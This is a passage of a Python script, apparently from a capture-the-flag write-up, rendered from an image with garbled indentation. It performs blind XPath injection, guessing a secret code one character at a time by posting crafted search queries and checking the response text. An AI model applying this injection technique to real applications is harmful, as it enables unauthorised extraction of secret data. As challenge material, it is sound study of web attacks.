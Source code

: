 ```python

			break

  

Test = True

while Test:

	#Iterate through the ascii range while avoiding bad chars

	for i in \[x for x in range(31,127) if x != bad \]:

	c = chr(i)

	test\_flag = ''

	test\_flag = ''.join(flag\_part\_2) + c
	
	print(" \\r%s" % ''.join(flag\_part\_1) + test\_flag, end\='', flush\=True)

	query = '\\'\] |/military/district/staff/selfDestructCode\[contains(text(),\\'%s\\')\] | /military/district/staff\[name=\\'' % test\_flag

	data = '{"search":"%s"}' % query

	req = requests.post(url\=url, headers\=hdr, data\=data)

	#Check to see if we got the correct char

	if "This millitary staff member exists" in req.text:

		flag\_part\_2.append(c)

		if flag\_part\_2\[-1\] == "}":

			winner\_flag = ''.join(flag\_part\_1)

			winner\_flag += ''.join(flag\_part\_2)

			print("Flag: %s" % winner\_flag)

			Test = False

			break
```
